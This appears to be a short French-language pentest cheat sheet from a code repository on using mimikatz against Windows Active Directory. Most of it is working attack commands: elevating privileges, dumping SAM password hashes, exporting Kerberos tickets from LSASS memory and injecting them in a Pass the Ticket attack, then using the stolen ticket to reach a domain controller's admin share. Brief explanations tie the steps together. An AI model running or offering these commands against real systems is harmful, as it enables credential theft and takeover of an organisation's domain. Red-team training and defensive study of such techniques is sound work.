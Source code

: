 Toujours executer ses commandes avant toutes action avec mimikatz

```c
privilage::debug
token::elevate
```

Dump Hash

```c
lsadump::sam
lsadump::sam /path
```

---
##### Pass The Ticket

Passer le ticket fonctionne en vidant le TGT de la mémoire LSASS de la machine qui est un processus de mémoire qui stocke les informations d'identification sur un serveur d'annuaire actif et peut stocker le ticket Kerberos avec d'autres types d'informations d'identification pour agir en tant que contrôleur d'accès et accepter ou rejeter les informations d'identification fournies.

Vous pouvez vider les tickets Kerberos de la mémoire LSASS tout comme vous pouvez vider les hachages. Lorsque vous videz les tickets avec mimikatz, cela nous donnera un ticket `.kirbi` qui peut être utilisé pour obtenir l'administrateur de domaine si un ticket d'administrateur de domaine se trouve dans la mémoire LSASS.

Vous pouvez penser à une attaque Pass the Ticket comme si la réutilisation d'un ticket existant ne créait ou ne détruisait aucun ticket ici, réutilisait simplement un ticket existant d'un autre utilisateur sur le domaine et usurpait l'identité de ce ticket.

```c
sekurlsa::tickets /export
kerberos::ptt <file.kirbi>

# Dans un nouveau cmd
misc::cmd
```

Ici, nous vérifions simplement que nous avons réussi à usurper l'identité du ticket en répertoriant nos tickets en cache.

```c
klist
```

Pour acceder a un machine du domaine:

```c
dir \\dc-ip\admin$
```


